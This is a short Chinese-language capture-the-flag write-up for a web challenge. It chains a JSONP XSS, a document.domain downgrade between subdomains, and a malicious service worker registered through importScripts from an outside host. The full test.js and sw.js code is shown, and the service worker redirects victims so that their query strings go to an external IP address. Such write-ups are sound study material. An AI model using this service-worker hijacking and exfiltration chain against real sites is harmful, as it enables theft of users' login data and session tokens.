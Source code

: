 整体思路



- 寻找一个jsonp-xss点   ➡️https://xss.xss.eec5b2.challenge.gcsis.cn/login?callback=alert(1)//

- 将两个子域降域 Bypass 同源
- 在xss子域中iframe拉取auth子域，并注入恶意Servive worker 拦截请求，发送至自己的vps
- 通过jsonp函数+script-src属性跨域加载js



test.js

```javascript
document.domain = "xss.eec5b2.challenge.gcsis.cn";
var iframetest = document.createElement('iframe');
iframetest.src = 'https://auth.xss.eec5b2.challenge.gcsis.cn/';
iframetest.addEventListener("load", function(){ 
	iframetest.contentWindow.eval(`navigator.serviceWorker.register("/api/loginStatus?callback=importScripts('//li3hiu.lihuaiqiu.repl.co/sw.js');//")`)
});
document.body.appendChild(iframetest);
```

sw.js

```javascript
self.addEventListener('install', function(event) {
        console.log('install ok!');
});
self.addEventListener('fetch', function (event) {
    var body = '<script>location="http://139.224.236.99?lih3iu"+location.search</script>';
    var init = {headers: {"Content-Type": "text/html"}};
    
    var res = new Response(body, init);
    event.respondWith(res.clone());
    
});
```



最终exp

```
https://xss.xss.eec5b2.challenge.gcsis.cn/login?callback=jsonp("https://li3hiu.lihuaiqiu.repl.co/test.js");
```



![0BMCrV.png](https://s1.ax1x.com/2020/10/08/0BMCrV.png)

